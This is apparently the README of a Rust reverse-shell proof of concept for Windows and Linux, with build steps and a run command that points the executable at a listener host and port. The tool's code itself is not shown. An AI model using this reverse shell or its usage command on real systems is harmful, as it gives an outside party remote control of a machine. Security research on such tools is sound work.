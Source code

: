 # Reverse shell
A basic proof of concept reverse shell for Windows and Linux in Rust.

## Usage

Compile the code with
```
cargo build --release
```
The executable will be in `target/release`. Just run it with your listener host and port as arguments.
```
./reverse-shell.exe [host] [port]
```

## Why

After some advanced research, I still didn't find a working reverse shell for Windows online in Rust. I found a very simple one for Linux, but it uses files descriptors, so it is completely unusable on Windows... and my primary goal was the Windows support. The only available repository that contains a reverse shell in Rust that is supposed to work for Windows does not compile (and after taking a look at the errors, I wonder how it could have compiled one day). So, I did my best to make one myself, but I found myself struggling **a lot** with Rust's sockets and subprocess interactions. This reverse shell is far from perfect, but at least **it works**.